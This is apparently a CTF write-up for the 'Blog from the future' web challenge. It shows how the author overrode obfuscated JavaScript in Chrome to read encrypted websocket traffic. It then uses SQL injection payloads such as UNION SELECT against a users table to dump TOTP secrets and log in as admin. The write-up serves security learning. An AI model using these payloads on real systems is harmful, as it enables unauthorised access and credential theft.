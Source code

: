 ```yaml
---
title: "Overriding JS to Perform SQL Injection (Housecat RTCP CTF Writeup: Blog from the future)"
date: 2020-04-26T19:59:05+05:30
draft: false
categories:
 - CTF Writeups
 - Housecat RTCP CTF
tags:
 - web-ctf
 - housecat-rtcp-ctf
---
```


The TL;DR of this challenge was SQL injection and overriding javascript (to skip the `encrypt`/`decrypt` functions).

## Challenge

**Challenge Name:** Blog from the future

**Challenge Description:**

> My friend Bob likes sockets so much, he made his own blog to talk about them. Can you check it out and make sure that it's secure like he assured me it is?
[Link](http://challs.houseplant.riceteacatpanda.wtf:30003)

## Solution

### JS Overriding

Rule #1 of web CTFs: ALWAYS check robots.txt first! This time I found:
```
User-Agent: *
Disallow: /admin
```

And in [/admin](http://challs.houseplant.riceteacatpanda.wtf:30003/admin) there is a comment saying you need to use TOTP (Time Based OTP. Who does not use a TOTP for 2-factor authentication in 2020?)

Okay, so back to the home page. It was using websockets to fetch blog posts. On Inspect-Elementing/View-Sourcing you find [main.js](http://challs.houseplant.riceteacatpanda.wtf:30003/js/main.js) which is obfuscated. I just used the default Prettifier in Chrome (the `{}` button in Sources tab) to deobfuscate it.

According to the Network tab, the packets were encrypted:
![Encrypted Data](/images/encrypted-network-houseplant.png)

I was going to rewrite the `encrypt` and `decrypt` functions in Python but that would've wasted a lot of time. So I just decided to override JS instead.

You have to enable overriding support first in Google Chrome (no idea about Firefox, I don't use it), and [here is the official guide](https://developers.google.com/web/updates/2018/01/devtools#overrides).

Then, you need to right click on the tab (`main.js` in this case) and you'll see `Save for overrides`. Press that, and you're ready!

While overriding, `console.log()` is your friend. Use it everywhere and see what's happening. I saw a function that decrypted the received data and I added my `console.log()` there:
``` javascript
const e = JSON.parse(i.utils.utf8.fromBytes(i.padding.pkcs7.strip(u.decrypt(t))));
console.log(e);
```
![Console Output](/images/console-output-hprtcpctf.png)

Cool! Now it printed everything! Now, I had to modify the sent requests. Just below the above line, there was:
``` javascript
if ("success" === e) {
    const t = parseInt(window.location.hash.substr(1));
    if (!isNaN(t))
        return r.send(o.encode(["getPost", t]));
    r.send(o.encode("listPosts"))
    }
}
```

And I found just what I wanted: a method to send data. In this case, it was getting the post ID from the URL, and sending that to get the post. Time for SQL Injection!

### SQL Injection

To ensure I could do a  SQL Injection attack, I made it:
``` javascript
r.send(o.encode(["getPost", "1 OR 5=5;--"]));
```

And yes, it worked! I got all the posts on the site. Output of `console.log`:
``` javascript
(3) ["post", "1 OR 2=2;--", Array(2)]
0: "post"
1: "1 OR 2=2;--"
2: Array(2)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

Explanation: I assumed the SQL statement was something like `SELECT * FROM posts WHERE id=<ID HERE>`.
So, my input made it: `SELECT * FROM posts WHERE id=1 OR 5=5;--`. Select everything from table posts where ID is 1 or 5=5 (which evaluates to True), aka fetch all posts. `;--` skips whatever is at the end, and terminates the query.

After that, I used `UNION` to join another `SELECT` query to get user information. In `UNION`, you have to make sure the number of columns match and hence the `1,1` thing:
``` javascript
r.send(o.encode(["getPost", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"]));
```

I didn't find `users` table or `*,1,1,0` on first attempt. It took like 20-30 attempts to get it right.

First I did `UNION SELECT 1,1,1,1,1,1` but that didn't work cause the last variable `hidden` was `1`, and it didn't return that. `UNION SELECT 1,1,1,1,1,0` returned what was expected.
Then I tried to get table names from `information_schema.tables` but that wasn't working. I tried to use some "common" table names and `users` worked. Then I did `UNION SELECT *,0 from users;--`, and kept adding `,1` till it worked. (Remember, `UNION` means same number of columns)

Here was the output:
``` javascript
(3) ["post", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--", Array(4)]
0: "post"
1: "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"
2: Array(4)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 1, title: "alice", author: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", text: 1, postDate: 1, …}
    2: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    3: {id: 2, title: "bob", author: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", text: 1, postDate: 1, …}
    length: 4
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

I took the TOTP secret key for `bob` and plugged it into a [TOTP Generator](https://totp.danhersam.com/).

On the admin page, I Inspect-Elemented, and uncommented the TOTP input field and deleted password field. After entering the username (`bob`) and the generated TOTP, I was able to log in and get the flag.

Flag is: `rtcp{WebSock3t5_4r3_SQLi_vu1n3r4b1e_t00_bacfe0}`. GGWP.

## Conclusion

It greatly helps SQL injection if you can create a local SQL table on your end and try creating SQL statements that work.

And, it's sometimes far more efficient to override javascript than to manually simulate requests (using `curl`/`python`) like many beginners do.

Ask me in the comments for any issues! And thanks jammy for the challenge!